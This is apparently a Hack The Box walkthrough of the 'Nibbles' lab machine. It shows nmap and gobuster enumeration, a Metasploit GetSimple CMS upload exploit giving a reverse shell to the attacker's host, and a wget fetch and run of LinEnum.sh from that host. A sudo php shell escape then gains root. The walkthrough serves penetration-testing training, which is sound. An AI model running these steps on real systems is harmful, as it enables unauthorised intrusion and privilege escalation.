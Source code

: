 # Nibbles Walkthrough (Hack The Box)

This file summarizes my process and learning while completing the Nibbles machine on Hack The Box.

---

## 🔍 Enumeration

### 1️⃣ Open Ports

```bash
nmap -sV --open -oA initial_scan 10.129.x.x
```

### 2️⃣ Directory Enumeration

```bash
nmap -sV --script=http-enum -oA http_enum 10.129.x.x
```

## 🌐 Web Footprinting

- Found paths:
  - `/admin/`
  - `/admin/index.php`
  - `/backups/`
  - `/robots.txt`
  - `/data/`

- Checked root with `curl`:

```bash
curl 10.129.134.236
```

### 3️⃣ Directory Bruteforce with Gobuster

```bash
gobuster dir -u http://10.129.x.x/data \
  --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
```

- Found:
  - `/other/`
  - `/pages/`
  - `/thumbs/`
  - `/uploads/`
  - `/users/`

- Found admin credentials during enumeration (`admin`).

---

## 🎯 Exploitation

### 4️⃣ CMS Exploitation

- Discovered target is running **GetSimple CMS 3.3.15**.
- Used Metasploit module:

```bash
msfconsole
use exploit/multi/http/getsimplecms_file_upload
set RHOSTS 10.129.x.x
set LHOST <your-IP>
check
exploit
```

- Gained reverse shell.

### 5️⃣ Upgraded shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 🔼 Privilege Escalation

### 6️⃣ Enumeration with LinEnum

- Transfer LinEnum.sh to target:

```bash
python3 -m http.server 8080
wget http://<your-IP>:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

- Found interesting sudo permission:

```
/usr/bin/php
```

### 7️⃣ Root Exploitation via Sudo PHP

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

- Escalated to root.

---

> ⚠️ No flags or sensitive information included. This file is for educational purposes only.
